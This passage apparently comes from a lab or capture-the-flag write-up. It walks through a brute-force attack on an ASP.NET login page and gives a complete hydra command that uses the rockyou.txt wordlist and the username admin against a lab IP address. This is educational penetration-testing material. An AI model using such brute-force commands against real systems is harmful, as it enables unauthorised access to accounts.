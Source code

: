 <img style="float: left;" src="screenshots/screenshot6.png">

We can see that the error message is '**Login failed**'.

<br>

With that, we have all of the information we require to start our brute-forcing attack. We will be using the classic **Rockyou.txt** file for our password wordlist. We will also try the attack with the username: **admin**, as that is one of the most common administrator usernames.

Our command looks like this:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.192.114 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=axRjnB%2B1TmS8i1Hwbx8X9Xjvkk8wBd8J2pvK88DXA1%2BZa0aL%2BNFovmHU5vlSPLh5QIflBnyN23ZLRco2PqAtCw%2BcPpaOUNQM%2FNVNMmwYco0jTW40crI4kC9bB64iXGbapeGPZ%2BFrrBgjOutqxFlRXuawgg5seMdK1p83%2BH8RIbhBBJrl&__EVENTVALIDATION=3WZp4eLcekUHr%2BcdriGax4x02RuYq8vHQ8dwX9UJWrcbY06qff%2FXQV9U%2BcvUrwOVth7j%2B9sd953X20thlPOTXgxZmjeGKdIzPvBAWda%2BQp0vv8WFGlEU9JGYfCnoNExgPIt058Ba4chb3r%2BmbH5qPoh0O1plVUwgXLbDMbthmRrHj%2F%2FN&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V
```
